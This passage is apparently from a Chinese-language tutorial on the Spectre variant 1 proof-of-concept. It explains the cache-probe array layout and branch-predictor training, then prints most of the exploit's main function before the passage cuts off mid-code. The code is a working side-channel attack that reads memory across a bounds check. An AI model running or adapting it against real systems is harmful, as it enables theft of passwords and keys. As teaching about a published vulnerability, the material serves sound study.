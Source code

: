 其中，字符数组secret是需要读取的机密数据。实际上，这里最重要的一个数组为array2：

```cpp
uint8_t array2[256 * 512];
```

该数组元素的类型为uint8\_t类型，即无符号的8位整型。实际上，我们可以把这个数组看作是一个共256行，每行包含512字节的二维数组。为什么是256行，这有什么特殊含义吗？因为我们瞬态执行时，每次越界读取一个内存字节中的内容，而一个字节的二进制值的取值范围，从0到255，也就是256个可能取值。假设我们越界读取的字节的二进制值为00000001，对应于十进制值1，我们就读取array2数组的第1\*512个元素，它实际上就是第1行中的第0列的那个元素，这个元素就会进入处理器的缓存。如果我们在瞬态执行前将该数组的第0列中的所有元素从缓存中全部逐出，并在瞬态执行后逐行遍历第0列，由于第1行的元素会缓存命中，所以，其访问时间将低于一个阀值，那么，我们就可以认为：这个行号（即1）对应的二进制值（即00000001）就是瞬态执行过程中越权访问的、长度为1字节的机密数据。从某种意义上说，这实际上就是将一个字节的机密数据编码为共享数组的第0列中的元素的行号。

那么，为什么每行有512个字节呢？理论上说，只要每行是64的正整数倍即可。因为每个缓存行可以存放64字节的数据，所以，当缓存内存中的数据时，会一次缓存64字节，即使我们只是读取了一个字节的内存。如果数组array2每行长度小于64字节，比如：

```cpp
uint8_t array2[256 * 32];
```

假设我们瞬态执行过程中越权读取的长度为1字节的机密数据为00000000（二进制值），按照上面的编码方法，我们将访问元素`array2[0 * 32]`，但是缓存行的长度为64，所以，它可能会从内存中加载数组array2的前两行内容，其中包括元素`array2[1 * 32]`，那么，当我们遍历该数组的第0列时，第0行和和第1行的元素都会缓存命中，那么，这次越权访问的值到底是00000000（二进制值），还是00000001（二进制值）呢？为了避免这个问题，我们只需确保array2数组每行的长度是64字节的正整数倍即可。

下面，我们再来看看array1数组：

```cpp
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
```

数组array1不仅用于训练分支预测器，而且还用于编码越权访问的机密数据。其中，该数组的前16个元素的值，可以看作ASCII码。由于在训练分支预测器后，会立即读取机密数并编码到array2数组的行号中，并且两者都会通过下面的形式读取array2数组元素：

```cpp
array2[array1[x]* 512];
```

同时，训练分支预测器期间，代码只能访问array1数组的前16个元素（具体见下面的代码），对应的值为1到16，对应于array2的行号1到16，同时对应于机密数据1到16。所以，后面恢复越界读取的机密数据时，如果得到的字节值为1到16，应该将其丢弃，因为，我们在训练分支预测器时，也会访问数组array2第0列的第1行到第16行所在的元素。

主函数
---

下面是主函数代码：

```cpp
int main(int argc, const char* * argv)
{
    printf("Putting '%s' in memory, address %p\n", secret, (void *)(secret));
    size_t malicious_x = (size_t)(secret - (char *)array1); /* default for malicious_x */
    int score[2], len = strlen(secret);
    uint8_t value[2];

    for (size_t i = 0; i < sizeof(array2); i++)
        array2[i] = 1; /* write to array2 so in RAM not copy-on-write zero pages */
    if (argc == 3)
    {
        sscanf_s(argv[1], "%p", (void * *)(&malicious_x));
        malicious_x -= (size_t)array1; /* Convert input value into a pointer */
        sscanf_s(argv[2], "%d", &len);
        printf("Trying malicious_x = %p, len = %d\n", (void *)malicious_x, len);
    }

    printf("Reading %d bytes:\n", len);
    while (--len >= 0)
    {
        printf("Reading at malicious_x = %p... ", (void *)malicious_x);
        readMemoryByte(malicious_x++, value, score);
        printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%d ", value[0],
               (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0)
```